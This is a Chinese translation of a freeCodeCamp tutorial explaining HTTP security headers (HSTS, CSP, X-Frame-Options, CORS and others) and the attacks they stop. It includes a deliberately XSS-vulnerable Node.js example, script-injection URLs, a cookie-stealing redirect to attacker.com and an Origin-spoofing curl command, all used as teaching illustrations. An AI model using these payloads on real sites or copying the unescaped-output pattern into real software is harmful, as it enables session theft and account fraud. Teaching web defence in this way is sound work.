# 使用这些 HTTP 头保护您的 web 应用程序

> 原文：<https://www.freecodecamp.org/news/secure-your-web-application-with-these-http-headers-fd66e0367628/>

亚历克斯·纳达林

# 使用这些 HTTP 头保护您的 web 应用程序


Photo by [Daniel Cheung](https://unsplash.com/photos/cPF2nlWcMY4?utm_source=unsplash&utm_medium=referral&utm_content=creditCopyText) on [Unsplash](https://unsplash.com/search/photos/stormtrooper?utm_source=unsplash&utm_medium=referral&utm_content=creditCopyText)

*这是 web 安全系列的第 3 部分:第 2 部分是“ [Web 安全:HTTP](https://medium.freecodecamp.org/web-security-https-perspective-5fa07140f9b3) 简介”*

正如我们在本系列的前几部分中看到的，除了发送客户机请求的内容之外，服务器还可以发送 HTTP 头来为客户机提供响应的附加元数据。然后，允许客户端指定如何读取、缓存或保护特定资源。

目前，浏览器已经实现了大量与安全相关的标头，以使攻击者更难利用漏洞。接下来的段落试图通过解释它们是如何使用的，它们防止什么样的攻击，以及每个报头背后的一些历史来总结每一个报头。

#### HTTP 严格的传输安全(HSTS)

自 2012 年末以来，HTTPS 无处不在的信徒们发现，由于 *HTTP 严格的传输安全*，迫使客户端始终使用 HTTP 协议的安全版本变得更加容易:一个非常简单的`Strict-Transport-Security: max-age=3600`将告诉浏览器，在接下来的一个小时(3600 秒)内，它不应该使用不安全的协议与应用程序进行交互。

当用户试图通过 HTTP 访问受 HSTS 保护的应用程序时，浏览器会简单地拒绝访问，自动将`http://`URL 转换为`[https://](https://.)` [。](https://.)

你可以用 github.com/odino/wasec/tree/master/hsts 的[代码在本地测试这个。你将需要遵循自述文件中的说明(它们涉及到通过令人惊奇的](https://github.com/odino/wasec/tree/master/hsts) [mkcert](https://github.com/FiloSottile/mkcert) 工具在你的机器上为`localhost`安装一个可信的 SSL 证书)，然后尝试打开`https://localhost:7889`。

本例中有 2 台服务器，一台 HTTPS 服务器监听`7889`，一台 HTTP 服务器监听端口`7888`。当您访问 HTTPS 服务器时，它总是会尝试将您重定向到 HTTP 版本，这将起作用，因为 HTTPS 服务器上没有 HSTS 策略。如果您在 URL 中添加了`hsts=on`参数，浏览器会将重定向中的链接强制转换为其`https://`版本。由于`7888`的服务器只支持 http，你最终会看到一个看起来或多或少像这样的页面。？



您可能想知道用户第一次访问您的网站时会发生什么，因为事先没有定义 HSTS 策略:攻击者可能会将用户诱骗到您网站的`http://`版本，并在那里实施攻击，因此仍然存在问题。这是一个合理的担忧，因为 HSTS 是一个首次使用的信任 T2 机制。它试图做的是确保，一旦你访问了一个网站，浏览器知道随后的互动必须使用 HTTPS。

解决这个缺点的一个办法是维护一个巨大的实施 HSTS 的网站数据库，这是 Chrome 通过[hstspreload.org](https://hstspreload.org/)做的事情。您必须首先设置您的策略，然后访问网站并检查它是否符合添加到数据库的条件。例如，我们可以看到脸书榜上有名。


通过将您的网站提交到此列表，您可以提前告诉浏览器您的网站使用 HSTS，这样，即使客户端和服务器之间的第一次交互也将通过安全通道进行。但这是有代价的，因为你真的需要对 HSTS 做出承诺。如果你希望自己的网站被从列表中删除，这对浏览器厂商来说可不是件容易的事:

> 请注意，包含在预加载列表中是不容易撤消的。

> 域名可以被删除，但 Chrome 更新需要几个月的时间才能到达用户手中，我们不能保证其他浏览器。除非你确定你能长期支持整个网站及其所有子域名的 HTTPS，否则不要请求收录。

> 来源:https://hstspreload.org/

出现这种情况是因为供应商不能保证所有用户都使用最新版本的浏览器，因为您的网站已从列表中删除。仔细考虑，根据你对 HSTS 的信心程度和你长期支持它的能力做出决定。

### HTTP 公钥锁定(HPKP)

HTTP 公钥锁定是一种机制，它允许我们在浏览器连接到我们的服务器时，向浏览器通告期望哪些 SSL 证书。这是一个首次使用的信任头，就像 HSTS 一样，这意味着，一旦客户端连接到我们的服务器，它将存储证书的信息用于后续的交互。如果在任何时候，客户端检测到服务器正在使用另一个证书，它会礼貌地拒绝连接，使得*中间人* (MITM)攻击很难得逞。

这就是 HPKP 政策的样子:

```
Public-Key-Pins:  pin-sha256="9yw7rfw9f4hu9eho4fhh4uifh4ifhiu=";  pin-sha256="cwi87y89f4fh4fihi9fhi4hvhuh3du3=";  max-age=3600; includeSubDomains;  report-uri="https://pkpviolations.example.org/collect"
```

这个消息头使用一个证书散列来通告服务器将使用什么证书(在这个例子中是两个证书)，并且包括附加信息，比如这个指令的生存时间(`max-age=3600`)和一些其他细节。可悲的是，深入了解我们可以用公钥密码做什么是没有意义的，因为这个功能正在被 Chrome 否决——这是一个信号，表明它的采用注定很快就会暴跌。

Chrome 的决定并非不合理，而仅仅是公钥密码相关风险的后果。如果您丢失了证书，或者只是在测试时犯了一个错误，您的网站将无法被之前访问过该网站的用户访问(在`max-age`指令期间，通常是几周或几个月)。

由于这些潜在的灾难性后果，HPKP 的采用率极低，并且出现过由于错误配置而导致[大型网站](https://www.smashingmagazine.com/be-afraid-of-public-key-pinning/)不可用的事件。综合考虑，Chrome 认为用户没有 HPKP 提供的保护会更好-[安全研究人员并不完全反对这个决定](https://scotthelme.co.uk/im-giving-up-on-hpkp/)。

### Expect-CT

虽然 HPKP 已被弃用，但一个新的报头加入进来，以防止欺诈性的 SSL 证书被提供给客户端:`Expect-CT`。

这个头的目的是通知浏览器应该执行额外的“背景检查”以确保证书是真实的:当服务器使用`Expect-CT`头时，它基本上是请求客户端验证正在使用的证书存在于公共证书透明性(CT)日志中。

证书透明倡议是由 Google 领导的一项工作，旨在提供:

> 一个用于近乎实时地监控和审计 SSL 证书的开放框架。

> 具体来说，证书透明性使得检测由证书颁发机构错误颁发的 SSL 证书或从其他无可指责的证书颁发机构恶意获取的证书成为可能。它还可以识别出恶意颁发证书的证书颁发机构。

> *来源:[https://www.certificate-transparency.org/](https://www.certificate-transparency.org/)*

标题采用以下形式:

```
Expect-CT: max-age=3600, enforce, report-uri="https://ct.example.com/report"
```

在本例中，服务器要求浏览器:

*   启用当前应用程序的 CT 验证 1 小时(3600 秒)
*   `enforce`此政策，并在出现违规时阻止访问应用程序
*   如果发生违规，向给定的 URL 发送报告

证书透明倡议的目标是比以前使用的任何其他方法更早、更快、更准确地检测到错误颁发的或恶意的证书(以及流氓证书颁发机构)。

通过选择使用`Expect-CT`头，您可以利用这一举措来改善您的应用程序的安全状况。

### x-框架-选项

想象一下，看到这样一个网页突然出现在你的屏幕前:


你一点开链接，就意识到银行账户里的钱都没了。发生了什么事？

你是一次*点击劫持*攻击的受害者。

攻击者将您引导到他们的网站，该网站显示了一个非常吸引人的链接供您点击。不幸的是，他还在页面中嵌入了一个来自`your-bank.com/transfer?amount=-1&[[attacker@gmail.com]](https://odino.org/cdn-cgi/l/email-protection)`的 iframe，但是通过设置它的不透明度为 0%来隐藏它。接下来发生的是，点击原始页面，试图赢得一辆全新的悍马，但浏览器捕捉到了 iframe 上的一次点击，这是一次确认资金转移的危险点击。

大多数银行系统要求您指定一次性 PIN 码来确认交易，但您的银行没有跟上时代，您所有的钱都不见了。

这个例子很极端，但是应该让你明白[点击劫持攻击](https://www.troyhunt.com/clickjack-attack-hidden-threat-right-in/)的后果。用户打算点击一个特定的链接，而浏览器将触发对作为 iframe 嵌入的“不可见”页面的点击。

我已经在 github.com/odino/wasec/tree/master/clickjacking 的[包含了这个漏洞的例子。如果您运行该示例并尝试点击“appealing”链接，您将看到实际的点击被 iframe 拦截，这增加了它的不透明度，因此您更容易发现问题。该示例应该在](https://github.com/odino/wasec/tree/master/clickjacking)`[http://localhost:7888](http://localhost:7888:)`处可访问。



幸运的是，浏览器已经想出了一个简单的方法来解决这个问题:`X-Frame-Options` (XFO)让你决定你的应用程序是否可以作为 iframe 嵌入到外部网站上。XFO 因 Internet Explorer 8 而普及，于 2009 年首次推出，目前仍受到所有主流浏览器的支持。

它的工作方式是，当浏览器看到 iframe 时，它会加载它，并在呈现它之前验证它的 XFO 是否允许它包含在当前页面中。



支持的值有:

*   此网页不能嵌入任何地方。这是最高级别的保护，因为它不允许任何人嵌入我们的内容。
*   `SAMEORIGIN`:只有与当前域相同的页面才能嵌入该页面。这意味着只要`example.com/embedder`的策略设置为`SAMEORIGIN`，它就可以加载`example.com/embedded`。这是一个更宽松的政策，允许特定网站的所有者在他们的应用程序中嵌入他们自己的页面。
*   `ALLOW-FROM uri`:允许从指定的 URI 嵌入。例如，我们可以让一个外部的授权网站通过使用`ALLOW-FROM https://external.com`来嵌入我们的内容。这通常在您打算允许第三方通过 iframe 嵌入您的内容时使用

包含最严格的 XFO 策略的 HTTP 响应示例如下所示:

```
HTTP/1.1 200 OKContent-Type: application/jsonX-Frame-Options: DENY
```

```
...
```

为了展示启用 XFO 时浏览器的行为，我们可以简单地将示例的 URL 改为`http://localhost:7888/?xfo=on`。`xfo=on`参数告诉服务器在响应中包含`X-Frame-Options: deny`，我们可以看到浏览器如何限制对 iframe 的访问:



XFO 被认为是防止基于帧的点击劫持攻击的最佳方式，直到多年后另一种报头开始发挥作用，即内容安全策略或简称 CSP。

### 内容安全政策(CSP)

通常缩写为 CSP 的`Content-Security-Policy`报头提供了下一代的实用工具，用于防止从 XSS(跨站点脚本)到点击劫持的大量攻击。

为了理解 CSP 如何帮助我们，我们应该首先想到一个攻击媒介。假设我们刚刚构建了自己的 Google Search，一个带有提交按钮的简单输入文本。



这个 web 应用程序没有任何神奇之处。只是，

*   显示一个表单
*   允许用户执行搜索
*   显示搜索结果以及用户搜索的关键字

当我们执行一个简单的搜索时，应用程序会返回以下内容:



太神奇了！我们的应用程序难以置信地理解了我们的搜索，并找到了一个相关的图像。如果我们更深入地挖掘源代码(可在[github.com/odino/wasec/tree/master/xss](https://github.com/odino/wasec/tree/master/xss)获得),我们将很快意识到该应用程序存在安全问题，因为用户搜索的任何关键字都直接打印在提供给客户端的 HTML 响应中:

```
var qs = require('querystring')var url = require('url')var fs = require('fs')
```

```
require('http').createServer((req, res) => {  let query = qs.parse(url.parse(req.url).query)  let keyword = query.search || ''  let results = keyword ? `You searched for "${keyword}", we found:</br>&lt;img src="http://placekitten.com/200/300" />` : `Try searching...`
```

```
res.end(fs.readFileSync(__dirname + '/index.html').toString().replace('__KEYWORD__', keyword).replace('__RESULTS__', results))}).listen(7888)
```

```
<html>  <body>    <h1>Search The Web</h1>    <form>      <input type="text" name="search" value="__KEYWORD__" />      <input type="submit" />    </form>    <div id="results">      __RESULTS__    </div>  </body></html>
```

这带来了严重的后果。攻击者可以在受害者浏览器中创建执行任意 JavaScript 的特定链接。



如果您有时间和耐心在本地运行该示例，您将能够很快理解 CSP 的强大功能。我添加了一个打开 CSP 的查询字符串参数，因此我们可以尝试在打开 CSP 的情况下导航到一个恶意 URL:

```
http://localhost:7888/?search=%3Cscript+type%3D%22text%2Fjavascript%22%3Ealert%28%27You%20have%20been%20PWNED%27%29%3C%2Fscript%3E&csp=on
```



正如您在上面的示例中看到的，我们已经告诉浏览器，我们的 CSP 策略只允许来自当前 URL 的相同来源的脚本，我们可以通过卷曲 URL 并查看响应标头来轻松验证这一点:

```
$ curl -I "http://localhost:7888/?search=%3Cscript+type%3D%22text%2Fjavascript%22%3Ealert%28%27You%20have%20been%20PWNED%27%29%3C%2Fscript%3E&csp=on"
```

```
HTTP/1.1 200 OKX-XSS-Protection: 0Content-Security-Policy: default-src 'self'Date: Sat, 11 Aug 2018 10:46:27 GMTConnection: keep-alive
```

由于 XSS 的攻击是通过一个*内嵌脚本*(一个直接嵌入在 HTML 内容中的脚本)进行的，浏览器礼貌地拒绝执行它，保护了我们用户的安全。想象一下，如果攻击者不是简单地显示一个警告对话框，而是设置一个重定向到自己的域，通过一些类似如下的 JavaScript 代码:

```
window.location = `attacker.com/${document.cookie}`
```

他们将能够窃取用户的所有 cookiess，这些 cookie 可能包含高度敏感的数据(下一篇文章将详细介绍)。

现在，应该清楚 CSP 如何帮助我们防止对 web 应用程序的一系列攻击。您定义了一个策略，浏览器将严格遵守它，拒绝运行违反策略的资源。

CSP 的一个有趣变化是*只报告*模式。不使用`Content-Security-Policy`头，您可以首先测试 CSP 对您的网站的影响，通过使用`Content-Security-Policy-Report-Only`头告诉浏览器简单地报告错误，而不阻止脚本执行等等。

报告将让您了解您想要推出的 CSP 策略可能会导致哪些突破性变化，并相应地修复它们。我们甚至可以指定一个报告 URL，浏览器会给我们发送一个报告。以下是仅报告策略的完整示例:

```
Content-Security-Policy: default-src 'self'; report-uri http://cspviolations.example.com/collector
```

CSP 策略本身可能有点复杂，如下例所示:

```
Content-Security-Policy: default-src 'self'; script-src scripts.example.com; img-src *; media-src medias.example.com medias.legacy.example.com
```

该策略定义了以下规则:

*   可执行脚本(如 JavaScript)只能从`scripts.example.com`加载
*   图像可以从任何原点(`img-src: *`)加载
*   视频或音频内容可以从两个来源加载:`medias.example.com`和`medias.legacy.example.com`

如您所见，策略可能会变得冗长，如果我们想要确保为我们的用户提供最高级别的保护，这可能会成为一个非常繁琐的过程。尽管如此，编写一个全面的 CSP 策略是向我们的 web 应用程序添加额外的安全层的重要一步。

想了解更多关于 CSP 的信息，我建议去 developer.mozilla.org/en-US/docs/Web/HTTP/CSP 深入了解一下。

### x-XSS-保护

尽管被 CSP 取代，`X-XSS-Protection`接头提供了类似的保护。该报头用于减轻不完全支持 CSP 的旧浏览器中的 XSS 攻击。Firefox 不支持此标头。

它的语法与我们刚刚看到的非常相似:

```
X-XSS-Protection: 1; report=http://xssviolations.example.com/collector
```

反射 XSS 是最常见的攻击类型，在这种情况下，未经确认的输入会被服务器打印出来，而这正是这个标题真正的亮点。如果你想亲自看看这个，我建议你在 github.com/odino/wasec/tree/master/xss 的试试这个例子，通过在 URL 后面加上`xss=on`，它显示了当 XSS 保护打开时浏览器会做什么。如果我们在搜索框中输入一个恶意字符串，比如`<script>alert('hello')<`；/script >，浏览器会委婉地拒绝执行脚本，并解释其决定背后的推理:

```
The XSS Auditor refused to execute a script in'http://localhost:7888/?search=%3Cscript%3Ealert%28%27hello%27%29%3C%2Fscript%3E&xss=on'because its source code was found within the request.The server sent an 'X-XSS-Protection' header requesting this behavior.
```

更有趣的是，当网页没有指定任何 CSP 或 XSS 策略时，Chrome 的默认行为，我们可以通过向我们的 URL ( `http://localhost:7888/?search=%3Cscript%3Ealert%28%27hello%27%29%3C%2Fscript%3E&xss=off`)添加`xss=off`参数来测试这种情况:



令人惊讶的是，Chrome 足够谨慎，它会阻止页面渲染，使反射 XSS 非常难以实现。看到浏览器的进步令人印象深刻。

### 功能策略

2018 年 7 月，安全研究员 [Scott Helme](https://scotthelme.co.uk/) 发表了一篇非常有趣的[博文](https://scotthelme.co.uk/a-new-security-header-feature-policy/)，详细介绍了一个正在制作的新安全头:`Feature-Policy`。

目前只有极少数浏览器支持(在撰写本文时是 Chrome 和 Safari)，这个标题让我们可以定义当前页面中是否启用了特定的浏览器功能。使用与 CSP 非常相似的语法，我们应该不难理解如下所示的特性策略的含义:

```
Feature-Policy: vibrate 'self'; push *; camera 'none'
```

如果我们对这个策略如何影响页面可用的浏览器 API 还有一些疑问，我们可以简单地分析一下:

*   `vibrate 'self'`:这将允许当前页面使用震动 API 和任何嵌套的浏览上下文(iframes)
*   `push *`:当前页面和任何 iframe 都可以使用推送通知 API
*   当前页面和任何嵌套上下文(iframes)拒绝访问摄像头 API

特性策略的历史可能很短，但是提前开始并没有坏处。例如，如果您的网站允许用户自拍或录制音频，那么使用限制其他上下文通过您的页面访问 API 的策略将非常有益。

### x-内容-类型-选项

有时候，从安全角度来看，聪明的浏览器功能最终会伤害我们。一个明显的例子是 MIME 嗅探，一种由 Internet Explorer 普及的技术。

MIME 嗅探是浏览器自动检测(并修复)它正在下载的资源的内容类型的能力。例如，我们要求浏览器在`/awesome-picture.png`呈现一个图像，但是服务器在向浏览器提供图像时设置了错误的类型(例如，`Content-Type: text/plain`)。这通常会导致浏览器无法正确显示图像。

为了解决这个问题，IE 竭尽全力实现了一个 MIME 嗅探功能:当下载一个资源时，浏览器会“扫描”它，如果它检测到资源的内容类型不是服务器在`Content-Type`头中广告的类型，它会忽略服务器发送的类型，并根据浏览器检测到的类型解释资源。

现在，想象一下托管一个允许用户上传自己图像的网站，想象一下用户上传一个包含 JavaScript 代码的`/test.jpg`文件。明白这是怎么回事了吗？一旦文件被上传，网站会将它包含在自己的 HTML 中，当浏览器试图呈现文档时，它会找到用户刚刚上传的“图像”。当浏览器下载图像时，它会检测到这是一个脚本，并在受害者的浏览器上执行它。

为了避免这个问题，我们可以设置完全禁用 MIME 嗅探的`X-Content-Type-Options: nosniff`头:通过这样做，我们告诉浏览器，我们完全意识到某些文件可能在类型和内容方面不匹配，浏览器不应该担心这个问题。我们知道我们在做什么，所以浏览器不应该试图猜测事情，这可能会对我们的用户造成安全威胁。

### 跨产地资源共享(CORS)

在浏览器上，通过 JavaScript，HTTP 请求只能跨同一个原点触发。简单来说，一个来自`example.com`的 AJAX 请求只能连接到`example.com`。

这是因为您的浏览器包含对攻击者有用的信息——cookies，它通常用于跟踪用户的会话。想象一下，如果一个攻击者在`win-a-hummer.com`设置了一个恶意页面，这个页面会立即触发一个对`your-bank.com`的 AJAX 请求。如果您登录了该银行的网站，攻击者就能够使用您的凭据执行 HTTP 请求，从而可能窃取信息，或者更糟的是，清空您的银行帐户。

但是，在某些情况下，可能需要您执行跨来源的 AJAX 请求，这就是浏览器实现跨来源资源共享(CORS)的原因，这是一组允许您执行跨域请求的指令。

CORS 背后的机制相当复杂，对我们来说浏览整个规范是不切实际的，所以我将把重点放在 CORS 的“简化”版本上。

现在，您需要知道的是，通过使用`Access-Control-Allow-Origin`头，您的应用程序告诉浏览器可以接收来自其他来源的请求。

这个头的最宽松的形式是`Access-Control-Allow-Origin: *`，它允许任何来源访问我们的应用程序，但是我们可以通过简单地用`Access-Control-Allow-Origin: [https://example.com](https://example.com.)` [将我们想要的 URL 添加到白名单中来限制它。](https://example.com.)

如果我们看一下在 github.com/odino/wasec/tree/master/cors[的例子，我们可以清楚地看到浏览器是如何阻止访问一个独立源上的资源的。我已经设置了这个例子，从`test-cors`向`test-cors-2`发出一个 AJAX 请求，并将操作结果打印到浏览器。当`test-cors-2`后面的服务器被指示使用 CORS 时，页面会像你预期的那样工作。尝试导航至](https://github.com/odino/wasec/tree/master/cors)`[http://cors-test:7888/?cors=on](http://cors-test:7888/?cors=on:)`



但是当我们从 URL 中删除`cors`参数时，浏览器会干预并阻止我们访问响应的内容:



我们需要理解的一个重要方面是，浏览器执行了请求，但是阻止了客户端访问它。这一点非常重要，因为如果我们的请求触发了服务器上的任何副作用，我们仍然很容易受到攻击。例如，想象一下，如果我们的银行允许通过简单地调用 url `my-bank.com/transfer?amount=1000&from=me&to=attacker`来转账。那将是一场灾难！

正如我们在本文开头看到的，`GET`请求应该是等幂的，但是如果我们尝试触发一个`POST`请求会发生什么呢？幸运的是，我已经在示例中包含了这个场景，所以我们可以通过导航到`[http://cors-test:7888/?method=POST](http://cors-test:7888/?method=POST:)`:来尝试一下



浏览器没有直接执行我们的`POST`请求，这可能会给服务器带来一些严重的问题，而是发送了一个“预检”请求。这只不过是对服务器的一个`OPTIONS`请求，请求它验证我们的来源是否被允许。在这种情况下，服务器没有积极响应，所以浏览器停止了进程，我们的`POST`请求永远不会到达目标。

这告诉我们一些事情:

*   CORS 不是一个简单的规范。有相当多的场景需要记住，并且您很容易在诸如预检请求等功能的细微差别中陷入混乱。
*   永远不要公开通过`GET`改变状态的 API。攻击者可以在没有飞行前请求的情况下触发这些请求，这意味着没有任何保护

根据经验，我发现自己更喜欢设置代理，将请求转发到正确的服务器，所有这些都在后端，而不是使用 CORS。这意味着在`example.com`运行的应用程序可以在`example.com/_proxy/other.com`设置一个代理，这样所有属于`_proxy/other.com/*`的请求都可以被代理到`other.com`。

我将在这里结束我对这个特性的概述，但是，如果你有兴趣深入了解 CORS，MDN 有一篇很长的文章，在[developer.mozilla.org/en-US/docs/Web/HTTP/CORS](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS)精彩地涵盖了整个规范。

### x-允许的跨域策略

与 CORS 非常相关的是，`X-Permitted-Cross-Domain-Policies`针对 Adobe 产品(即 Flash 和 Acrobat)的跨域政策。

我不会深入细节，因为这是一个针对非常具体的用例的标题。简而言之，Adobe 产品通过请求所针对的域的根目录中的一个`crossdomain.xml`文件来处理跨域请求，而`X-Permitted-Cross-Domain-Policies`定义了访问该文件的策略。

听起来很复杂？我只是建议添加一个`X-Permitted-Cross-Domain-Policies: none`,忽略想要使用 Flash 进行跨域请求的客户端。

### 推荐人-保单

在我们职业生涯的开始，我们都可能犯同样的错误。使用`Referer`标题在我们的网站上实施安全限制。如果标题包含我们定义的白名单中的特定 URL，我们将让用户通过。

好吧，也许那不是我们每个人。但我当时确实犯了这个错误。相信`Referer`头会给我们关于用户来源的可靠信息。在我们意识到将这些信息发送到网站会对我们用户的隐私造成潜在威胁之前，标题确实很有用。

诞生于 2017 年初，目前受到所有主流浏览器的支持，`Referrer-Policy`头可以用来缓解这些隐私问题，方法是告诉浏览器它应该只屏蔽`Referer`头中的 URL，或者完全忽略它。

`Referrer-Policy`可以采用的一些最常见的值是:

*   `no-referrer`:将完全省略`Referer`标题
*   `origin`:将`https://example.com/private-page`变为`[https://example.com/](https://example.com/)`
*   `same-origin`:将`Referer`发送到相同的站点源，但为其他任何人省略它

值得注意的是，`Referrer-Policy` ( `strict-origin`，`no-referrer-when-downgrade`等等)还有很多变体，但是我上面提到的那些可能会涵盖你的大多数用例。如果你希望更好地理解你可以使用的每一种变体，我建议你去访问 [OWASP 专用页面](https://www.owasp.org/index.php/OWASP_Secure_Headers_Project#rp)。

`Origin`头与`Referer`非常相似，因为它是由浏览器在跨域请求中发送的，以确保调用者被允许访问不同域上的资源。`Origin`标题由浏览器控制，因此恶意用户无法篡改它。您可能想把它用作 web 应用程序的防火墙:如果`Origin`在我们的白名单中，就让请求通过。

不过，需要考虑的一点是，其他 HTTP 客户端(如 cURL)可以显示它们自己的来源:一个简单的`curl -H "Origin: example.com" api.example.com`将使所有基于来源的防火墙规则变得低效……这就是为什么你不能依靠`Origin`(或`Referer`，正如我们刚刚看到的)来构建防火墙以阻止恶意客户端。

### 测试您的安全状况

